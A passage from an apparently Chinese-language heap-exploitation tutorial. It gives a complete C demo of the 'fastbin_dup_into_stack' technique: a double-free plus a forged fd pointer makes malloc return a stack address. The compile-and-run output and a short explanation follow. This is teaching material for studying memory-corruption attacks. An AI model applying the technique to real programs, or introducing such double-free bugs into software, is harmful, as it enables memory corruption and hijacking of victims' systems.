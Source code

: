 ```
```
一个很明显的 double-free 漏洞。关于这类漏洞的详细利用过程，我们会在后面的章节里再讲。

#### fastbin_dup_into_stack
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    unsigned long long stack_var = 0x21;
    fprintf(stderr, "Allocating 3 buffers.\n");
    char *a = malloc(9);
    char *b = malloc(9);
    char *c = malloc(9);
    strcpy(a, "AAAAAAAA");
    strcpy(b, "BBBBBBBB");
    strcpy(c, "CCCCCCCC");
    fprintf(stderr, "1st malloc(9) %p points to %s\n", a, a);
    fprintf(stderr, "2nd malloc(9) %p points to %s\n", b, b);
    fprintf(stderr, "3rd malloc(9) %p points to %s\n", c, c);

    fprintf(stderr, "Freeing the first one %p.\n", a);
    free(a);
    fprintf(stderr, "Then freeing another one %p.\n", b);
    free(b);
    fprintf(stderr, "Freeing the first one %p again.\n", a);
    free(a);

    fprintf(stderr, "Allocating 4 buffers.\n");
    unsigned long long *d = malloc(9);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
    fprintf(stderr, "4nd malloc(9) %p points to %p\n", d, &d);
    char *e = malloc(9);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    char *f = malloc(9);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s\n", f, f);
    char *g = malloc(9);
    strcpy(g, "GGGGGGGG");
    fprintf(stderr, "7th malloc(9) %p points to %s\n", g, g);
}
```
```
$ gcc -g fastbin_dup_into_stack.c 
$ ./a.out 
Allocating 3 buffers.
1st malloc(9) 0xcf2010 points to AAAAAAAA
2nd malloc(9) 0xcf2030 points to BBBBBBBB
3rd malloc(9) 0xcf2050 points to CCCCCCCC
Freeing the first one 0xcf2010.
Then freeing another one 0xcf2030.
Freeing the first one 0xcf2010 again.
Allocating 4 buffers.
4nd malloc(9) 0xcf2010 points to 0x7ffd1e0d48b0
5nd malloc(9) 0xcf2030 points to EEEEEEEE
6rd malloc(9) 0xcf2010 points to FFFFFFFF
7th malloc(9) 0x7ffd1e0d48b0 points to GGGGGGGG
```
这个程序展示了怎样通过修改 fd 指针，将其指向一个伪造的 free chunk，在伪造的地址处 malloc 出一个 chunk。该程序大部分内容都和上一个程序一样，漏洞也同样是 double-free，只有给 fd 填充的内容不一样。
